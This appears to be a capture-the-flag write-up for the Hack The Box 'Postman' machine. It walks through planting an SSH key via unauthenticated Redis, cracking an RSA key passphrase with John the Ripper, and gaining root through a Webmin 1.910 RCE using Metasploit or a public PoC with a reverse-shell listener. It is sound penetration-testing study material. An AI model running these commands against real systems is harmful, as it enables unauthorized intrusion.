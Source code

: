 ## Postman

Difficulty: Easy

### User Flag

#### Foothold

There is a redis port open. We can interact with it. Also, Webmin 1.910 is in port 10000, but this will be exploit lately.

```
rustscan -a 10.10.10.160 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/18ecdbc0-e1e0-42ad-8370-9daa73a12ce7)

![port10000](https://github.com/b1d0ws/OSCP/assets/58514930/0e87a547-2428-4b38-90c5-e5f02a1c2357)

<br>

Searching for how to exploit redis, hacktricks brings [this article](https://hacktricks.boitatech.com.br/pentesting/6379-pentesting-redis) showing a SSH Key manner to do it.

![redisSSH](https://github.com/b1d0ws/OSCP/assets/58514930/c277134e-0f93-4027-892f-166f0e82ef63)

<br>

```
redis-cli -h 10.85.0.52
CONFIG SET requirepass "mypass" 

ssh-keygen -t rsa -f kali
(echo -e "\n\n"; cat kali.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.85.0.52 -a mypass -x set ssh_key

redis-cli -h 10.85.0.52
10.10.10.160:6379> AUTH mypass
OK
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK

ssh -i kali redis@10.10.10.160
```

![firstAccess](https://github.com/b1d0ws/OSCP/assets/58514930/9d212745-d876-42cc-b07e-08c4ea94fa82)

#### User Access

LinPeas return to us that a rsa key exists inside /opt.  

Crack the password of this key with jhon and you can use it as Matt user.

```
ssh2john matt.rsa > mattHash 
john mattHash --wordlist=/usr/share/wordlists/rockyou.txt
```

![optKey](https://github.com/b1d0ws/OSCP/assets/58514930/0c166507-a694-47d1-b567-76f2f2ad1383)

![mattHashCrack](https://github.com/b1d0ws/OSCP/assets/58514930/4734be05-44d5-467c-82fd-cf59712c6695)

### Root Flag

We can use Matt credentials to login in Webmin and exploit a RCE vulnerability with metasploit.  

Remember to set SSL to true in metasploit module.

![searchsploit](https://github.com/b1d0ws/OSCP/assets/58514930/a5731014-6cff-44a7-b851-f66081da19ac)

![webmin](https://github.com/b1d0ws/OSCP/assets/58514930/e258107a-c79a-4e21-aa38-e7ed5746f17e)

![metasploitConfig](https://github.com/b1d0ws/OSCP/assets/58514930/94464c88-5ac7-4ff8-8ed1-900f00f236e2)

![rootShell](https://github.com/b1d0ws/OSCP/assets/58514930/2a628577-7573-474a-8b3a-9e1aa0e47712)

<br>

There is also a public exploit on Git that can be used instead of metasploit.

```
python3 exploit_poc.py --ip_address=postman --port=10000 --lhost=10.10.14.11 --lport=3333 --user=Matt --pass=computer2008
```

![alternativeExploit](https://github.com/b1d0ws/OSCP/assets/58514930/2ffd05b2-3823-419a-a8b0-ed870dc45dae)
